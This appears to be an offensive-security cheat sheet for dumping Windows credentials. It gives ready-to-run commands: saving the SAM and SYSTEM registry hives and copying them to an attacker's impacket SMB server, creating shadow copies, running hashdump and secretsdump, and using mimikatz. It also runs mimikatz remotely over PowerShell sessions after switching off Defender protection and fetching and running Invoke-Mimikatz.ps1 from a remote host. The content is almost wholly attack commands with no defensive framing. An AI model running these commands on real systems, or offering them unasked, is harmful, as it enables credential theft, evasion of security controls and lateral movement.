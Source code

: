 ### Get sam and system by registry (From old versions to recent versions)
```powershell
reg save hklm\sam sam
reg save hklm\system system
```

-> transfer sam and syste via sharing files via SMB
-> Configuring smb server pt1    
```bash
impacket-smbserver share . -smb2support -user user -password teste321
```
-> Configuring smb server pt2  
```powershell
net use \\<smbserver>\share /USER:user teste321
copy C:\Users\Backup\sam.hive \\<smbserver>\share\
copy C:\Users\Backup\system.hive \\<smbserver>\share\
```
- https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/smbserver.py

-> View smb enumeration  
```powershell
net view \\dc /all
net use * \\dc\c$
net use
```

### Volume shadow copy (Windows Server \ recent versions)
-> vssadmin  
```powershell
vssadmin create shadow /for=c:
```

-> meterpreter  
```bash
hashdump
```

-> samdump2 (Win 2k/NT/XP/Vista SAM)   
```bash
samdump2 system sam
```

-> impacket-secretsdump  
```bash
impacket-secretsdump -sam sam -system system LOCAL
```

### Extracting Hashes in Domain and Pivoting  
-> Dump the credentials of all connected users, including cached hashes
```powershell
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

-> mimikatz + ScriptBlock
```powershell
$sess = New-PSSession -ComputerName <hostname>
```
```
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
iex (iwr http://<ip>/Invoke-Mimikatz.ps1 -UseBasicParsing)
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```
or  
```powershell
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Enter-PSSession $sess
Invoke-Mimikatz
```